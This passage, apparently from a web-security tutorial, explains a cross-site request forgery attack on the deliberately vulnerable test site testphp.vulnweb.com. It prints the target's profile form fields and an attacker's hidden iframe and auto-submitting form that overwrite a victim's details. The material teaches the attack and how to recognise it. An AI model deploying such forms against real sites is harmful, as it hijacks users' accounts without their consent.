 From the above code we can identify the input fields which will receive
information from a user and send to the website. These are called
urname, ucc, uemail, uphone and uaddress and are shown below.

&lt;input type="text" value="John Doe" name="urname"
style="width:200px"&gt;\
&lt;input type="text" value="1254-5498-5233-5569" name="ucc"
style="width:200px"&gt;\
&lt;input type="text" value="example@vulnweb.com" name="uemail"
style="width:200px"&gt;\
&lt;input type="text" value="+44 123 12345 123" name="uphone"
style="width:200px"&gt;\
&lt;textarea wrap="soft" name="uaddress" rows="5"
style="width:200px"&gt;\
North London, London, England&lt;/textarea&gt;

When the user clicks the ‘Update’ button of the form userinfo.php, an
HTTP POST request will be sent that will contain the above parameters
along with their values accordingly.

Since the website does not have any prevention measures against CSRF,
the attacker can use this form (http://testphp.vulnweb.com/userinfo.php)
to submit any desired information without the user’s consent. The
attacker will perform this by embedding the actual code of the update
form in his own website and when the victim visits the attacker’s
website, the form, including any desired information of the attacker,
will be submitted to the target website.

This is the malicious website of the attacker.

![](media/website-security/csrf-attacks.md-images/media/image15.jpg){width="5.777777777777778in"
height="4.458333333333333in"}

The attacker’s website is a normal online photo gallery website.
However, it contains a hidden form which will auto submit and update the
victim’s profile on testphp.vulnweb.com.

The hidden iframe exists in the myimages.php page.

&lt;iframe src="http://www.vulnweb.com/updateif.php"
style="display:none"&gt;&lt;/iframe&gt;

This loads another page of the attacker’s website. The website contains
the actual userinfo.php page code which auto submits and updates the
particular userinfo.php of the current victim. This happens
automatically every time a user accesses this website.

The updateif.php page contains the actual form code which auto submits
the desired information the attacker has set.

&lt;body onload="document.getElementById('f').submit()"&gt;\
&lt;form id="f" action="http://testphp.vulnweb.com/userinfo.php"
method="post" name="form1"&gt;\
&lt;input name="urname" value="attacker’svalue"&gt;\
&lt;input name="ucc" value=" attacker’svalue"&gt;\
&lt;input name="uemail" value=" attacker’svalue"&gt;\
&lt;input name="uphone" value=" attacker’svalue"&gt;\
&lt;textarea name="uaddress"
wrap="soft"&gt;&lt;attacker’svalue&gt;&lt;/textarea&gt;\
&lt;input name="update" value="update"&gt;\
&lt;/form&gt;\
&lt;/body&gt;
